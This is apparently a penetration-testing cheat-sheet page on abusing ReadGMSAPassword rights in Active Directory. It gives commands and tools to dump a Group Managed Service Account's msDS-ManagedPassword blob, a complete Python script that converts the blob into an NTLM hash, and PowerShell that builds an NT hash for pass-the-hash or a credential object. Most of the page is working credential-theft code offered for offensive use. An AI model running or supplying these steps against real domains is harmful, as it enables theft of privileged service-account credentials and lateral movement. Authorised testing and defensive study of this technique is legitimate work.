 # GMSAPasswordRead

ReadGMSAPassword allows an attacker to use the password of a Group Managed Service Account which usually has elevated privileges

<figure><img src="../../../.gitbook/assets/image (438).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#reading-gmsa-password" %}

{% embed url="https://github.com/expl0itabl3/Toolies" %}

```powershell
.\GMSAPasswordReader.exe --accountname 'svc_account'
```

### Remotely Read GMSA Passwords

Retrieve hash remotely if we can't WinRM

{% embed url="https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword" %}

{% embed url="https://github.com/micahvandeusen/gMSADumper" %}

### Manually from gMSADumper

```powershell
(Get-ADServiceAccount -Identity 'SVC_ACCOUNT' -Properties 'msDS-ManagedPassword').'msDS-ManagedPassword' > blob.txt
```

```powershell
(Get-Content 'blob.txt') -join ','
1,0,0,0,36,2,0,0,16,0,18,1,......
```

{% code title="blob2hash.py" %}
```python
#!/usr/bin/env python3
from ldap3 import ALL, Server, Connection, NTLM, SASL, KERBEROS, extend, SUBTREE
import argparse
from binascii import hexlify
from Cryptodome.Hash import MD4
from impacket.ldap.ldaptypes import ACE, ACCESS_ALLOWED_OBJECT_ACE, ACCESS_MASK, LDAP_SID, SR_SECURITY_DESCRIPTOR
from impacket.structure import Structure
from impacket.krb5 import constants
from impacket.krb5.crypto import string_to_key
import sys

data = [1,0,0,0,36,2,0,0,16,0,18,1,......]
#convert this into bytes
data = bytes(data)

class MSDS_MANAGEDPASSWORD_BLOB(Structure):
    structure = (
        ('Version','<H'),
        ('Reserved','<H'),
        ('Length','<L'),
        ('CurrentPasswordOffset','<H'),
        ('PreviousPasswordOffset','<H'),
        ('QueryPasswordIntervalOffset','<H'),
        ('UnchangedPasswordIntervalOffset','<H'),
        ('CurrentPassword',':'),
        ('PreviousPassword',':'),
        #('AlignmentPadding',':'),
        ('QueryPasswordInterval',':'),
        ('UnchangedPasswordInterval',':'),
    )

    def __init__(self, data = None):
        Structure.__init__(self, data = data)

    def fromString(self, data):
        Structure.fromString(self,data)

        if self['PreviousPasswordOffset'] == 0:
            endData = self['QueryPasswordIntervalOffset']
        else:
            endData = self['PreviousPasswordOffset']

        self['CurrentPassword'] = self.rawData[self['CurrentPasswordOffset']:][:endData - self['CurrentPasswordOffset']]
        if self['PreviousPasswordOffset'] != 0:
            self['PreviousPassword'] = self.rawData[self['PreviousPasswordOffset']:][:self['QueryPasswordIntervalOffset']-self['PreviousPasswordOffset']]

        self['QueryPasswordInterval'] = self.rawData[self['QueryPasswordIntervalOffset']:][:self['UnchangedPasswordIntervalOffset']-self['QueryPasswordIntervalOffset']]
        self['UnchangedPasswordInterval'] = self.rawData[self['UnchangedPasswordIntervalOffset']:]


                    
blob = MSDS_MANAGEDPASSWORD_BLOB()
blob.fromString(data)
currentPassword = blob['CurrentPassword'][:-2]

# Compute ntlm key
ntlm_hash = MD4.new ()
ntlm_hash.update (currentPassword)
passwd = hexlify(ntlm_hash.digest()).decode("utf-8")
                    
print(passwd)                   
```
{% endcode %}

```
python blob2hash.py
```

### Powershell

```powershell
# Save the blob to a variable
$gmsa = Get-ADServiceAccount -Identity 'Target_Account' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'

# Decode the data structure using the DSInternals module
ConvertFrom-ADManagedPasswordBlob $mp
# Build a NT-Hash for PTH
(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword | ConvertTo-NTHash
# Alterantive: build a Credential-Object with the Plain Password
$cred = new-object system.management.automation.PSCredential "Domain\Target_Account",(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```
